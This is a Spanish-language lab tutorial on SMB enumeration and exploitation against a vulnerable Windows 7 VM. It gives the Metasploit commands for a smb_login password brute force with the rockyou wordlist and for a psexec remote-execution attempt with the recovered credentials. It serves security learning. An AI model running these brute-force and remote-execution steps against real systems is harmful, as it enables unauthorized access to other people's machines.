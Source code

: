 # Enumeración y Explotación Básica del Protocolo SMB con Metasploit

Maquina que vamos a utilizar **Kali Linux y Windows 7 vulnerable** ([https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing](https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing))

Realizaremos un ataque al protocolo SMB utilizando metasploit, donde podremos utilizar un diccionario para probar a una alta velocidad si encuentra la contraseña para acceder a este protocolo y enumerar los recursos compartidos en el sistema.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%209.png)

- Abrimos el Metasploit.
    
    Tenemos que entender que el Metasploit no solo sirve para explotar vulnerabilidades **también podemos utilizarlo para ataques de fuerza bruta, iniciar sesión mediante SSH , SMB, Pivoting, etc**…
    
    ![image.png](./imagenes/image%2010.png)
    
- Haremos un ataque de fuerza bruta al protocolo SMB. Usaremos un modulo llamado
    - `use auxiliary/scanner/smb/smb_login`
        
        ![image.png](./imagenes/image%2011.png)
        
    - `show options`
        
        ![image.png](./imagenes/image%2012.png)
        
    
    - `set RHOST 10.0.3.6`
    - `set VERBOSE false` . Hacemos esto para que no muestre la información del ataque hasta que terminé , con esto logramos que vaya mas rápido el ataque.
    - `set SMBUser mario` . Vamos a suponer que se el usuario pero no la contraseña.
    - `set PASS_FILE /usr/share/wordlists/rockyou.txt` . Cargamos el diccionario .
        
        ![image.png](./imagenes/image%2013.png)
        
    
    - `show options`
        
        ![image.png](./imagenes/image%2014.png)
        
    
    - `run`
        
        ![image.png](./imagenes/image%2015.png)
        

- Una vez que tenemos un usuario y una contraseña hay que intentar **iniciar sesión median PsExec** que dependerá si la maquina victima lo tiene habilitado o no. Usaremos el modulo `exploit/windows/smb/psexec`
    
    <aside>
    💡
    
    **PsExec** implica ejecutar comandos o procesos en un sistema remoto desde tu máquina local. PsExec es una herramienta de Sysinternals desarrollada por Microsoft que permite la administración remota sin necesidad de instalar software adicional en el sistema remoto.
    
    </aside>
    

- `use exploit/windows/smb/psexec`
- `show options`
    
    ![image.png](./imagenes/image%2016.png)
    

- `set RHOSTS 10.0.3.6`
- `set SMBPass 123123`
- `set SMBUser mario`
- `show options`
    
    ![image.png](./imagenes/image%2017.png)
    
    Hay que verificar que los siguientes datos estén bien.
    
    ![image.png](./imagenes/image%2018.png)
    

- `run`
    
    ![image.png](./imagenes/image%2019.png)
    
    Vemos que no funciona en este caso pero es importante probarlo.